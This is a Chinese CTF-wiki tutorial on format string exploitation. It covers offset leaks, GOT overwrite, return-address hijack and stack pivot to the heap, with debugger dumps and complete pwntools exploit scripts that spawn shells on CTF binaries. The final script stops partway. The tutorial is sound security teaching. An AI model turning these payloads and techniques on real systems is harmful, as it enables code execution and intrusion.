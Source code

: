 格式化字符串漏洞例子
====================

下面会介绍一些CTF中的格式化漏洞的题目。也都是格式化字符串常见的利用。

64位程序格式化字符串漏洞
------------------------

原理
~~~~

其实64位的偏移计算和32位类似，都是算对应的参数。只不过64位函数的前6个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。

例子
~~~~

这里，我们以2017年的UIUCTF中pwn200 GoodLuck为例进行介绍。这里由于只有本地环境，所以我在本地设置了一个flag.txt文件。

确定保护
^^^^^^^^

.. code:: shell

    ➜  2017-UIUCTF-pwn200-GoodLuck git:(master) ✗ checksec goodluck
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序开启了NX保护以及部分RELRO保护。

分析程序
^^^^^^^^

可以发现，程序的漏洞很明显

.. code:: c

      for ( j = 0; j <= 21; ++j )
      {
        v5 = format[j];
        if ( !v5 || v11[j] != v5 )
        {
          puts("You answered:");
          printf(format);
          puts("\nBut that was totally wrong lol get rekt");
          fflush(_bss_start);
          result = 0;
          goto LABEL_11;
        }
      }

确定偏移
^^^^^^^^

我们在printf处下偏移如下,这里只关注代码部分与栈部分。

.. code:: shell

    gef➤  b printf
    Breakpoint 1 at 0x400640
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
    what's the flag
    123456
    You answered:

    Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
    28  printf.c: 没有那个文件或目录.

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
       0x7ffff7a627fe <fprintf+142>    ret    
       0x7ffff7a627ff                  nop    
     → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
       0x7ffff7a62807 <printf+7>       test   al, al
       0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
       0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
    ───────────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb08', 'l8']
    8
    0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
    0x00007fffffffdb10│+0x08: 0x0000000031000001
    0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
    0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
    0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
    0x00007fffffffdb30│+0x28: "flag{11111111111111111"
    0x00007fffffffdb38│+0x30: "11111111111111"
    0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
    [#1] 0x400890 → Name: main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────

可以看到flag对应的栈上的偏移为5，除去对应的第一行为返回地址外，其偏移为4。此外，由于这是一个64位程序，所以前6个参数存在在对应的寄存器中，fmt字符串存储在RDI寄存器中，所以fmt字符串对应的地址的偏移为10。而fmt字符串中%order$s对应的order为fmt字符串后面的参数的顺序，所以我们只需要输入%9$s即可得到flag的内容。当然，我们还有更简单的方法利用https://github.com/scwuaptx/Pwngdb中的fmtarg来判断某个参数的偏移。

.. code:: shell

    gef➤  fmtarg 0x00007fffffffdb28
    The index of format argument : 10

需要注意的是我们必须break在printf处。

利用程序
^^^^^^^^

.. code:: python

    from pwn import *
    from LibcSearcher import *
    goodluck = ELF('./goodluck')
    if args['REMOTE']:
        sh = remote('pwn.sniperoj.cn', 30017)
    else:
        sh = process('./goodluck')
    payload = "%9$s"
    print payload
    ##gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

hijack GOT
----------

原理
~~~~

在目前的C程序中，libc中的函数都是通过GOT表来跳转的。此外，在
没有开启RELRO保护的前提下，每个libc的函数对应的GOT表项是可以被修改的。因此，我们可以修改某个libc函数的GOT表内容为另一个libc函数的地址来实现对程序的控制。比如说我们可以修改printf的got表项内容为system函数的地址。从而，程序在执行printf的时候实际执行的是system函数。

假设我们将函数A的地址覆盖为函数B的地址，那么这一攻击技巧可以分为以下步骤

-  确定函数A的GOT表地址。

    -  这一步我们利用的函数A一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

-  确定函数B的内存地址

    -  这一步通常来说，需要我们自己想办法来泄露对应函数B的地址。

-  将函数B的内存地址写入到函数A的GOT表地址处。

    -  这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

    -  写入函数：write函数。
    -  ROP

       .. code:: text
    
           pop eax; ret;           # printf@got -> eax
           pop ebx; ret;           # (addr_offset = system_addr - printf_addr) -> ebx
           add [eax] ebx; ret;     # [printf@got] = [printf@got] + addr_offset

    -  格式化字符串任意地址写

例子
~~~~

这里我们以2016 CCTF中的pwn3为例进行介绍。

确定保护
^^^^^^^^

如下

.. code:: shell

    ➜  2016-CCTF-pwn3 git:(master) ✗ checksec pwn3 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序主要开启了NX保护。我们一般默认远程都是开启ASLR保护的。

分析程序
^^^^^^^^

首先分析程序，可以发现程序似乎主要实现了一个需密码登录的ftp，具有get，put，dir三个基本功能。大概浏览一下每个功能的代码，发现在get功能中存在格式化字符串漏洞

.. code:: c

    int get_file()
    {
      char dest; // [sp+1Ch] [bp-FCh]@5
      char s1; // [sp+E4h] [bp-34h]@1
      char *i; // [sp+10Ch] [bp-Ch]@3

      printf("enter the file name you want to get:");
      __isoc99_scanf("%40s", &s1);
      if ( !strncmp(&s1, "flag", 4u) )
        puts("too young, too simple");
      for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
      {
        if ( !strcmp(i, &s1) )
        {
          strcpy(&dest, i + 0x28);
          return printf(&dest);
        }
      }
      return printf(&dest);
    }

漏洞利用思路
^^^^^^^^^^^^

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

-  绕过密码
-  确定格式化字符串参数偏移
-  利用put@got获取put函数地址，进而获取对应的libc.so的版本，进而获取对应system函数地址。
-  修改puts@got的内容为system的地址。
-  当程序再次执行puts函数的时候，其实执行的是system函数。

漏洞利用程序
^^^^^^^^^^^^

如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher
    ##context.log_level = 'debug'
    pwn3 = ELF('./pwn3')
    if args['REMOTE']:
        sh = remote('111', 111)
    else:
        sh = process('./pwn3')


    def get(name):
        sh.sendline('get')
        sh.recvuntil('enter the file name you want to get:')
        sh.sendline(name)
        data = sh.recv()
        return data


    def put(name, content):
        sh.sendline('put')
        sh.recvuntil('please enter the name of the file you want to upload:')
        sh.sendline(name)
        sh.recvuntil('then, enter the content:')
        sh.sendline(content)


    def show_dir():
        sh.sendline('dir')


    tmp = 'sysbdmin'
    name = ""
    for i in tmp:
        name += chr(ord(i) - 1)


    ## password
    def password():
        sh.recvuntil('Name (ftp.hacker.server:Rainism):')
        sh.sendline(name)


    ##password
    password()
    ## get the addr of puts
    puts_got = pwn3.got['puts']
    log.success('puts got : ' + hex(puts_got))
    put('1111', '%8$s' + p32(puts_got))
    puts_addr = u32(get('1111')[:4])

    ## get addr of system
    libc = LibcSearcher("puts", puts_addr)
    system_offset = libc.dump('system')
    puts_offset = libc.dump('puts')
    system_addr = puts_addr - puts_offset + system_offset
    log.success('system addr : ' + hex(system_addr))

    ## modify puts@got, point to system_addr
    payload = fmtstr_payload(7, {puts_got: system_addr})
    put('/bin/sh;', payload)
    sh.recvuntil('ftp>')
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    ##gdb.attach(sh)
    sh.sendline('/bin/sh;')

    ## system('/bin/sh')
    show_dir()
    sh.interactive()

注意

-  我在获取puts函数地址时使用的偏移是8，这是因为我希望我输出的前4个字节就是puts函数的地址。其实格式化字符串的首地址的偏移是7。
-  这里我利用了pwntools中的fmtstr\_payload函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里fmtstr\_payload(7, {puts\_got:
   system\_addr})的意思就是，我的格式化字符串的偏移是7，我希望在puts\_got地址处写入system\_addr地址。默认情况下是按照字节来写的。

hijack retaddr
--------------

原理
~~~~

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

例子
~~~~

这里我们以三个白帽-pwnme\_k0为例进行分析。

确定保护
^^^^^^^^

.. code:: shell

    ➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序主要开启了NX保护以及Full RELRO保护。这我们就没有办法修改程序的got表了。

分析程序
^^^^^^^^

简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

.. code:: c

    int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
    {
      write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
      printf(&formata, "Welc0me to sangebaimao!\n");
      return printf(&a4 + 4);
    }

其输出的内容为&a4+4。我们回溯一下，发现我们读入的passwrod内容也是

.. code:: c

        v6 = read(0, (char *)&a4 + 4, 0x14uLL);

当然我们还可以发现我们读入的username在距离的password20个字节。

.. code:: c

      puts("Input your username(max lenth:20): ");
      fflush(stdout);
      v8 = read(0, &bufa, 0x14uLL);
      if ( v8 && v8 <= 0x14u )
      {
        puts("Input your password(max lenth:20): ");
        fflush(stdout);
        v6 = read(0, (char *)&a4 + 4, 0x14uLL);
        fflush(stdout);
        *(_QWORD *)buf = bufa;
        *(_QWORD *)(buf + 8) = a3;
        *(_QWORD *)(buf + 16) = a4;

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

利用思路
^^^^^^^^

我们最终的目的是希望可以获得系统的shell，可以发现在给定的文件中，在00000000004008A6地址处有一个直接调用system('bin/sh')的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

-  确定偏移
-  获取函数的rbp与返回地址
-  根据相对偏移获取存储返回地址的地址
-  将执行system函数调用的地址写入到存储返回地址的地址。

确定偏移
^^^^^^^^

首先，我们先来确定一下偏移。输入用户名aaaaaaaa，密码随便输入，断点下在输出密码的那个printf(&a4 + 4)函数处

.. code:: text

    Register Account first!
    Input your username(max lenth:20): 
    aaaaaaaa
    Input your password(max lenth:20): 
    %p%p%p%p%p%p%p%p%p%p
    Register Success!!
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >error options
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >1
    ...

此时栈的情况为

.. code:: text

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
         0x400b1a                  call   0x400758
         0x400b1f                  lea    rdi, [rbp+0x10]
         0x400b23                  mov    eax, 0x0
     →   0x400b28                  call   0x400770
       ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
            0x400776                  xchg   ax, ax
            0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
            0x40077e                  xchg   ax, ax
    ────────────────────────────────────────────────────────────────────[ stack ]────
    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为5+3=8。

修改地址
^^^^^^^^

我们再仔细观察下断点处栈的信息

.. code:: text

    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用showaccounth函数时执行push rip所存储的值)，在格式化字符串中的偏移为7。

与此同时栈上，第一个元素存储的也就是上一个函数的rbp。所以我们可以得到偏移0x00007fffffffdb80-0x00007fffffffdb48=0x38。继而如果我们知道了rbp的数值，就知道了函数返回地址的地址。

0x0000000000400d74与0x00000000004008A6只有低2字节不同，所以我们可以只修改0x00007fffffffdb48开始的2个字节。

利用程序
^^^^^^^^

这里使用data[1:]的原因是当我们split的时候由于起始的是0x，所以会产生‘’字符串，需要跳过。

.. code:: python

    from pwn import *
    from LibcSearcher import *
    pwnme = ELF('./pwnme_k0')
    if args['REMOTE']:
        sh = remote(11, 11)
    else:
        sh = process('./pwnme_k0')
    sh.recvuntil(':\n')
    sh.sendline('a' * 8)
    sh.recvuntil(':\n')
    sh.sendline('%p' * 9)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.recvuntil('a' * 8 + '\n')
    data = sh.recvuntil('1.', drop=True).split('0x')
    print data
    data = data[1:]
    rbp = int(data[5], 16)
    ret_addr = rbp - 0x38
    sh.recvuntil('>')
    sh.sendline('2')
    sh.recvuntil(':\n')
    sh.sendline(p64(ret_addr))
    sh.recvuntil(':\n')
    payload = '%2214d%8$hn'
    sh.sendline(payload)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.interactive()

堆上的格式化字符串漏洞
----------------------

原理
~~~~

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

例子
~~~~

这里我们以2015年CSAW中的contacts为例进行介绍。

确定保护
^^^^^^^^

.. code:: shell

    ➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序不仅开启了NX保护还开启了Canary。

分析程序
^^^^^^^^

简单看看程序，发现程序正如名字所描述的，是一个联系人相关的程序，可以实现创建，修改，删除，打印联系人的信息。而再仔细阅读，可以发现在输入联系人信息的时候存在格式化字符串漏洞。

.. code:: c

    int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
    {
      printf("\tName: %s\n", a1);
      printf("\tLength %u\n", a2);
      printf("\tPhone #: %s\n", a3);
      printf("\tDescription: ");
      return printf(format);
    }

仔细看看，可以发现这个format其实是指向堆中的。

利用思路
^^^^^^^^

我们的基本目的是获取系统的shell，从而拿到flag。其实既然有格式化字符串漏洞，我们应该是可以通过劫持got表或者控制程序返回地址来控制程序流程。但是这里却不怎么可行。原因分别如下

-  之所以不能够劫持got来控制程序流程，是因为我们发现对于程序中常见的可以对于我们给定的字符串输出的只有printf函数，我们只有选择它才可以构造/bin/sh让它执行system('/bin/sh')，但是printf函数在其他地方也均有用到，这样做会使得程序直接崩溃。
-  其次，不能够直接控制程序返回地址来控制程序流程的是因为我们并没有一块可以直接执行的地址来存储我们的内容，同时利用格式化字符串来往栈上直接写入system\_addr+'bbbb'+addr of '/bin/sh‘似乎并不现实。

那么我们可以怎么做呢？我们还有之前在栈溢出讲的技巧，stack
privot。而这里，我们可以控制的恰好是堆内存，所以我们可以把栈迁移到堆上去。这里我们通过leave指令来进行栈迁移，所以在迁移之前我们需要修改程序保存ebp的值为我们想要的值。
只有这样在执行leave指令的时候，esp才会成为我们想要的值。同时，因为我们是使用格式化字符串来进行修改，所以我们得知道保存ebp的地址为多少，而这时PrintInfo函数中存储ebp的地址每次都在变化，而我们也无法通过其他方法得知。但是，\ **程序中压入栈中的ebp值其实保存的是上一个函数的保存ebp值的地址**\ ，所以我们可以修改其\ **上层函数的保存的ebp的值，即上上层函数（即main函数）的ebp数值**\ 。这样当上层程序返回时，即实现了将栈迁移到堆的操作。

基本思路如下

-  首先获取system函数的地址
-  通过泄露某个libc函数的地址根据libc database确定。
-  构造基本联系人描述为system\_addr+'bbbb'+binsh\_addr
-  修改上层函数保存的ebp(即上上层函数的ebp)为\ **存储system\_addr的地址-4**\ 。
-  当主程序返回时，会有如下操作
-  move esp,ebp，将esp指向system\_addr的地址-4
-  pop ebp， 将esp指向system\_addr
-  ret，将eip指向system\_addr，从而获取shell。

获取相关地址与偏移
^^^^^^^^^^^^^^^^^^

这里我们主要是获取system函数地址、/bin/sh地址，栈上存储联系人描述的地址，以及PrintInfo函数的地址。

首先，我们根据栈上存储的libc\_start\_main\_ret地址(该地址是当main函数执行返回时会运行的函数)来获取system函数地址、/bin/sh地址。我们构造相应的联系人，然后选择输出联系人信息，并将断点下在printf处，并且一直运行到格式化字符串漏洞的printf函数处，如下

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    ──────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0xf7e44670 → Name: __printf(format=0x804c420 "1234567\n")
    [#1] 0x8048c27 → leave 
    [#2] 0x8048c99 → add DWORD PTR [ebp-0xc], 0x1
    [#3] 0x80487a2 → jmp 0x80487b3
    [#4] 0xf7e13637 → Name: __libc_start_main(main=0x80486bd, argc=0x1, argv=0xffffce14, init=0x8048df0, fini=0x8048e60, rtld_fini=0xf7fe88a0 <_dl_fini>, stack_end=0xffffce0c)
    [#5] 0x80485e1 → hlt 
    ────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  dereference $esp 140
    ['$esp', '140']
    1
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    gef➤  dereference $esp l140
    ['$esp', 'l140']
    140
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
    0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
    0xffffcd24│+0x28: 0x00002b67 ("g+"?)
    0xffffcd28│+0x2c: 0x0804c410  →  "11111"
    0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
    0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
    0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
    0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd3c│+0x40: 0x00000000
    0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
    0xffffcd44│+0x48: 0x00000000
    0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
    0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
    0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
    0xffffcd58│+0x5c: 0x00000050 ("P"?)
    0xffffcd5c│+0x60: 0x00000000
    0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
    0xffffcd64│+0x68: 0x08048288  →  0x00000082
    0xffffcd68│+0x6c: 0x00000004
    0xffffcd6c│+0x70: 0x0000000a
    0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
    0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
    0xffffcd78│+0x7c: 0x00000000
    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
    0xffffcd80│+0x84: 0x00000001
    0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
    0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"

我们可以通过简单的判断可以得到

::

    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10

存储的就是main相应的地址，同时利用fmtarg来获取对应的偏移，可以看出其偏移为32，那么相对于格式化字符串的偏移为31。

.. code:: shell

    gef➤  fmtarg 0xffffcd7c
    The index of format argument : 32

这样我们便可以得到对应的地址了。进而可以根据libc-database来获取对应的libc，继而获取system函数地址与/bin/sh函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址0xffffcd2c相对于格式化字符串的偏移为6，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为11，这样我们可以直接修改上层函数存储的ebp的值。

.. code:: shell

    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp

构造联系人获取堆地址
^^^^^^^^^^^^^^^^^^^^

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的ebp地址。

.. code:: text

    [system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]

来获取对应的相应的地址。后面的bbbb是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的ebp地址并不会因为我们再次调用而改变。

修改ebp
^^^^^^^

由于我们需要执行move指令将ebp赋给esp，并还需要执行pop ebp才会执行ret指令，所以我们需要将ebp修改为存储system地址-4的值。这样pop
ebp之后，esp恰好指向保存system的地址，这时在执行ret指令即可执行system函数。

上面已经得知了我们希望修改的ebp值，而也知道了对应的偏移为11，所以我们可以构造如下的payload来进行修改相应的值。

::

    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

获取shell
^^^^^^^^^

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入5，退出程序即会执行ret指令，就可以获取shell。

利用程序
^^^^^^^^

.. code:: python

    from pwn import *
    from LibcSearcher import *
    contact = ELF('./contacts')
    ##context.log_level = 'debug'
    if args['REMOTE']:
        sh = remote(11, 111)
    else:
        sh = process('./contacts')


    def createcontact(name, phone, descrip_len, description):
        sh.recvuntil('>>> ')
        sh.sendline('1')
        sh.recvuntil('Contact info: \n')
        sh.recvuntil('Name: ')
        sh.sendline(name)
        sh.recvuntil('You have 10 numbers\n')
        sh.sendline(phone)
        sh.recvuntil('Length of description: ')
        sh.sendline(descrip_len)
        sh.recvuntil('description:\n\t\t')
        sh.sendline(description)


    def printcontact():
        sh.recvuntil('>>> ')
        sh.sendline('4')
        sh.recvuntil('Contacts:')
        sh.recvuntil('Description: ')


    ## get system addr & binsh_addr
    payload = '%31$paaaa'
    createcontact('1111', '1111', '111', payload)
    printcontact()
    libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
    log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
    libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
    libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.success('get system addr: ' + hex(system_addr))
    log.success('get binsh addr: ' + hex(binsh_addr))
    ##gdb.attach(sh)

    ## get heap addr and ebp addr
    payload = flat([
        system_addr,
        'bbbb',
        binsh_addr,
        '%6$p%11$pcccc',
    ])
    createcontact('2222', '2222', '222', payload)
    printcontact()
    sh.recvuntil('Description: ')
    data = sh.recvuntil('cccc', drop=True)
    data = data.split('0x')
    print data
    ebp_addr = int(data[1], 16)
    heap_addr = int(data[2], 16)

    ## modify ebp
    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
    ##print payload
